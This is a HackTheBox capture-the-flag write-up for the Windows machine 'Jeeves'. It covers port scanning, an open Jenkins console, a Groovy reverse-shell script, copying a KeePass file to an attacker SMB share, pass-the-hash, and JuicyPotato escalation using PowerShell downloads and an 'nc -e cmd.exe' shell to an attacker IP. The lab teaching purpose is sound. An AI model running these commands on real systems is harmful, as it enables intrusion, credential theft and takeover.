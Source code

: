```yaml
---
title: "HackTheBox - Jeeves"
author: Nasrallah
description: ""
date: 2023-03-23 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, jenkins, passthehash, crack, john]
img_path: /assets/img/hackthebox/machines/jeeves
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [jeeves](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.63
Host is up (0.14s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h59m58s, deviation: 0s, median: 4h59m58s
| smb2-time: 
|   date: 2023-03-19T13:39:02
|_  start_date: 2023-03-19T13:30:18
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

We found 4 open ports, port 80 is running MS IIS web server, port 135 is MSRPC, port 445 is SMB and port 50000 is Jetty http web server.

### Web

Let's navigate to the web page on port 80.

![](1.png)

We got what looks like a search engine, the links go nowhere but searching for something gives us the following.

![](2.png)

We got an error which would have been useful for us if it was real. By checking the source code we see that this is an image.

```html
<img src="jeeves.PNG" width="90%" height="100%">
```

Checking the source code of the home page we find that whatever we submit we get redirected to this error page.

```html
<form class="form-wrapper cf" action="error.html">
    <div class="byline"><p><a href="#">Web</a>, <a href="#">images</a>, <a href="#">news</a>, and <a href="#">lots of answers</a>.</p></div>
  	<input type="text" placeholder="Search here..." required>
	  <button type="submit">Search</button>
    <div class="byline-bot">Skins</div>
</form>
```

Let's check the other web page.

![](3.png)

We got a 404 error, let's run a directory scan and see what we can find.

```terminal
$ feroxbuster -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.63:50000/ -n            

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.63:50000/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
302      GET        0l        0w        0c http://10.10.10.63:50000/askjeeves => http://10.10.10.63:50000/askjeeves/
```

There is a directory called `askjeeves`, let's check it out.

![](4.png)

This is Jenkins admin dashboard and we're not even logged in!

## **Foothold**

To get a reverse shell, we can use `script console` that runs groovy script and execute the following code:

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](5.png)

We setup a listener and click run

![](6.png)

We got a shell!


## **Privilege Escalation**

### Method 1

Checking `kohsuke`'s Documents directory, we find a keepass file called `CEH.kdbx`.

To download the file, i setup an smb server with the following command

```bash
impacket-smbserver share ./share -smb2support
```

Then on the target i run the following command

```powershell
copy CEH.kdbx \\10.10.17.90\share
```

The file is encrypted and we need a password to read it.

Using `keepass2john` can extract the hash and then crack it using `john`.

![](7.png)

We got the password now we can open the keepass file.

![](8.png)

We find multiple passwords and one `NTLM` hash.

Tried to connect with the clear text password but none of them worked.

We couldn't crack the NTLM hash, but we can try the `passthehash` attack using `psexec`

![](9.png)

### Method 2

Let's check our privileges.

```terminal
C:\Users\Administrator\.jenkins>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

```

We have `SeImpersonatePrivilege`, this means we can use [JuicyPotato](https://github.com/ohpe/juicy-potato/releases) to get system privileges.

First we upload juicyPotato executable and a copy of netcat.

```powershell
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.17.90/JuicyPotato.exe', 'Potato.exe')
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.17.90/nc.exe', 'nc.exe')
```

Then we run the following command that would send us a reverse shell

```powershell
Potato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.17.90 9002" -t *
```

![](11.png)

Finally to get the root flag, we go administrator's desktop, run `dir /r` to see alternative data stream.

We find a file called `hm.txt:root.txt`, which is a file withing a file, to read is run `more < hm.txt:root.txt`

For more information of data streams check this [article](https://www.malwarebytes.com/blog/news/2015/07/introduction-to-alternate-data-streams)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
